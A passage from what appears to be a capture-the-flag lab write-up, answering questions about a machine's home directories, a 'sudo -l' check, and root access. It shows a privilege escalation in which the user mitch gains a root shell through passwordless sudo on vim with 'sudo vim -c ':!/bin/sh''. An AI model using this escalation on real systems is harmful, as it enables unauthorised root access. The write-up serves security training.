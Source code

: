 <details><summary>🚩 Flag (user.txt)</summary></details>

#### 2.8 - Is there any other user in the home directory? What's its name?

```bash
$ cd ..
$ ls
mitch  sunbath
```

> sunbath

#### 2.9 - What can you leverage to spawn a privileged shell?

On to privileged escalation! First I like to start off with running “sudo -l” to see what my current user can run.

```bash
sudo -l
```

```bash
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

We can see the user “mitch” can run /usr/bin/vim without a password. With that information, let’s check out GTFOBins and see if we can use that for privesc.

```bash
sudo vim -c ':!/bin/sh'
```

```bash
whoami
root
```

> Vim

2.10 - What's the root flag?

```
cd root
ls
root.txt
cat root.txt
```

<details><summary>🚩 Flag (root.txt)</summary></details>



